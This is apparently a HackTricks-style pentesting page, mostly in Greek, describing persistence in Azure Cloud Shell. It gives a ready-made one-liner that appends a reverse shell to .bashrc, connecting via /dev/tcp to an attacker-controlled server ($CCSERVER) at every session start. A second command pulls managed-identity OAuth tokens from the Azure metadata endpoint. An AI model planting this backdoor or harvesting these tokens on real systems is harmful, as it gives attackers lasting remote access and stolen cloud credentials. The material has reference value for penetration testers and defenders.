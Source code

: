 # Az - Cloud Shell Persistence

{{#include ../../../banners/hacktricks-training.md}}

## Cloud Shell Persistence

Το Azure Cloud Shell προσφέρει πρόσβαση μέσω γραμμής εντολών για τη διαχείριση πόρων Azure με μόνιμη αποθήκευση και αυτόματη πιστοποίηση. Οι επιτιθέμενοι μπορούν να εκμεταλλευτούν αυτό το χαρακτηριστικό τοποθετώντας backdoors στον μόνιμο κατάλογο αρχικής:

* **Persistent Storage**: Ο κατάλογος αρχικής του Azure Cloud Shell είναι τοποθετημένος σε ένα Azure file share και παραμένει ανέπαφος ακόμη και μετά την ολοκλήρωση της συνεδρίας.
* **Startup Scripts**: Αρχεία όπως το .bashrc εκτελούνται αυτόματα στην αρχή κάθε συνεδρίας, επιτρέποντας τη μόνιμη εκτέλεση όταν ξεκινά το cloud shell.

Example backdoor in .bashrc:

{% code overflow="wrap" %}
```bash
echo '(nohup /usr/bin/env -i /bin/bash 2>/dev/null -norc -noprofile >& /dev/tcp/$CCSERVER/443 0>&1 &)' >> $HOME/.bashrc
```
{% endcode %}

Αυτή η πίσω πόρτα μπορεί να εκτελεί εντολές ακόμη και 5 λεπτά μετά την ολοκλήρωση του cloud shell από τον χρήστη.

Επιπλέον, ερωτήστε την υπηρεσία μεταδεδομένων του Azure για λεπτομέρειες και tokens της παρουσίας:
{% code overflow="wrap" %}
```bash
curl -H "Metadata:true" "http://169.254.169.254/metadata/identity/oauth2/token?api-version=2018-02-01&resource=https://management.azure.com/" -s
```
{% endcode %}


{{#include ../../../banners/hacktricks-training.md}}
